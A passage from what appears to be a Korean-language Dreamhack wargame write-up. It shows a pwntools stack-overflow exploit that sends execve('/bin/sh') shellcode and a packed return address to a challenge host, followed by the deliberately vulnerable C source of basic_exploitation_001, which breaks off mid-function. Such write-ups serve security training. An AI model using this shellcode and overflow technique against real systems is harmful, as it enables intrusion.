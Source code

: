 ```python
from pwn import *

p = remote("host3.dreamhack.games", 18896)

mc = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80"

p.recvuntil("buf = (")

buf = int(p.recv(10), 16)

payload = mc
payload += b"\x80"*(0x80-len(mc))
payload += b"\x81"*0x4
payload += p32(buf)

p.sendline(payload)

p.interactive()
```

- `recvuntil`을 사용해서 쉽게 출력되는 buffer의 address를 **parsing**할 수 있다. 또는 `p.recv(7)`를 미리 한 번 써서 앞 부분을 날려줘도 된다.
- **Payload를 작성할 때 dummy data 부분과 shellcode 부분의 앞에 `b`를 써서 byte string으로 encode해줘야한다는 사실을 몰라 고생을 많이 함.**
- `p32(buf)`과 같이 buffer의 주소를 **little endian으로 packing**해야 한다. 이때 architecture를 고려해서 `p64`가 아닌 **`p32`를 사용해야 함**에 주의하자.

## Wargame: [basic_exploitation_001](https://dreamhack.io/wargame/challenges/3)

Example code와 거의 동일한 문제이다. `read_flag()`의 주소를 buffer overflow를 통해 return address 부분에 넣어주면 된다.

```python
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

```